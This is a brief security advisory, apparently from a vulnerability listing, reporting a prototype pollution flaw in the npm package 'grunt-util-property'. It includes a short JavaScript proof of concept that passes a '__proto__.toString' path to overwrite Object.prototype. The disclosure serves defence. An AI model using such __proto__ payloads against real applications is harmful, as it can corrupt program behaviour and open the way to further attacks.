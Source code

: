 # Overview
`grunt-util-property` is a Grunt util for getting and setting properties, this package are vulnerable to Prototype Pollution.

The function call could be tricked into adding or modifying properties of `Object.prototype` using a __proto__ payload.

# Proof of Concept
```
var grunt = require("grunt");
var a = require("grunt-util-property");
var b = a(grunt);
b.call({}, '__proto__.toString', 123);
console.log({}.toString);
```